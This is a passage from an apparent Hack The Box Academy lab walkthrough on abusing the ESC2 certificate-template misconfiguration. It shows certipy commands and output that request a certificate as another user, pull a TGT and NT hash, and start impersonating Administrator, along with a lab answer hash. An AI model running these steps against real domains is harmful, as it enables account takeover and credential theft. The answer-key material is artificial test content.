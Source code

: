 ```
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC2 -upn Matilda

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 68
[*] Got certificate with UPN 'Matilda'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'matilda.pfx'
```

Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Matilda` and `Un-PAC-the-hash` within it; students will attain the NT hash `7dfa0531d73101ca080c7379a9bff1c7`:

Code: shell

```shell
certipy auth -pfx matilda.pfx -domain lab.local
```

```
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy auth -pfx matilda.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: matilda@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'matilda.ccache'
[*] Trying to retrieve NT hash for 'matilda'
[*] Got hash for 'matilda@lab.local': aad3b435b51404eeaad3b435b51404ee:7dfa0531d73101ca080c7379a9bff1c7
```

Answer: `7dfa0531d73101ca080c7379a9bff1c7`

# ESC2

## Question 2

### "Abuse the ESC2 misconfiguration to impersonate the Administrator account. What is the value of the flag file at C:\\Users\\matilda\\Desktop\\flag.txt?"

To abuse `ESC2` and impersonate the `Administrator` account, students need to use the `req` command of `certipy`, specifying the template `ESC2` for the `-template` option and the `UPN` `Administrator` for the `-upn` option; students will attain a `PFX` certificate for the `Administrator` user:
